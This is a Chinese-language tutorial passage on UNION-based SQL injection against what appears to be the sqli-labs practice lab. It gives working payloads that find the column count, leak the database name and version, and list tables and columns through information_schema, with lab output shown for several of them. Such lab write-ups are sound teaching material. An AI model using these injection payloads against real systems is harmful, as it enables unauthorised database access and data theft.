 然后尝试基础的注入，没成功，于是尝试UNION注入

```
/?id=1' order by 3 --+
```

* order by 是用来排序的sql语句，在注入中，可以用来探测列数，当报错了就是超出了列的数量

这里的3刚好是没报错，然后继续

```
?id=-1'union select 1,2,3--+
```

使用-1使前面的结果集为空，union合并后输出，发现2和3会输出到页面上，利用这个输出需要的内容

```
?id=-1'union select 1,database(),version()--+

Welcome    Dhakkan
Your Login name:security
Your Password:10.2.26-MariaDB-log
```

```
?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+

Welcome    Dhakkan
Your Login name:2
Your Password:emails,referers,uagents,users
```

> `group_concat(table_name) from information_schema.tables where table_schema='security'`
>
> `group_concat(table_name)`：这是一个聚合函数，将多行数据合并为一个字符串，table_name是要合并的列，默认这个函数会用逗号分隔结果
>
> `from information_schema.tables`：这个是mysql中的一个系统表，存储了数据库中所有表的信息，有以下几个列
>
> * `table_schema`：数据库名称
> * `table_name`：表名称
> * `table_type`：表类型（如 `BASE TABLE` 或 `VIEW`）
>
> `where table_schema='security'`：用来指定数据库

接下来要获取数据，猜测用户的账户应该会在users表中

```
?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
```

> 这个就差不多了
>
> `from information_schema.columns`：这个是一个系统表，存储了数据库中所有表的列信息，有以下几个重要列
>
> - `table_schema`：数据库名称。
> - `table_name`：表名称。
> - `column_name`：列名称。
> - `data_type`：列的数据类型。
